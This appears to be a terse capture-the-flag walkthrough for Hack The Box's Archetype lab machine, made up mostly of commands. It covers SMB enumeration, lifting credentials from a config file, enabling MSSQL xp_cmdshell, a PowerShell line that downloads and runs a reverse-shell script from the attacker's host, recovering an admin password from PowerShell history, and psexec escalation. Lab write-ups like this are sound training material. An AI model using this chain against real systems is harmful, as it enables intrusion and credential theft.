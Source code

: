 # Hack The Box : Starting Point : Archetype
```
export ip = 10.10.10.27
```
## Scan
```
135 msrpc
139 netbios-ssn
445 microsft-ds
1433 ms-sql-s

```


## Enumerate
```
1. smbclient -L \\\\export_ip\\
		ADMIN$          Disk      Remote Admin
        backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC

2. smbclient -N \\\\export_ip\\backups
3. get prod.dtsConfig
-- Admin : ARCHETYPE\sql_svc
-- Password : M3g4c0rp123
```

## Maintain Access
```
1. mssqlclient.py ARCHETYPE\sql_svc@10.10.10.27 -windows-auth

2. xp_cmdshell configure command
- EXEC sp_configure 'Show Advanced Options', 1;
- reconfigure;
- sp_configure;
- EXEC sp_configure 'xp_cmdshell',1
- reconfigure;
- xp_cmdshell "whoami"

Reference File : shell.ps1
```

## MSSQL xp_cmdshell
```
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.30:8000/shell.ps1\");"
```

## Privilige Escalte
```
1. type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
--> net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!

2. psexec administrator@10.10.10.27
```

## where is flag?
```
1. cd c:/

2. dir user.txt /s /p
: C:\Users\sql_svc\Desktop

3. dir root.txt /s/ p
: C:\Users\Administrator\Desktop
```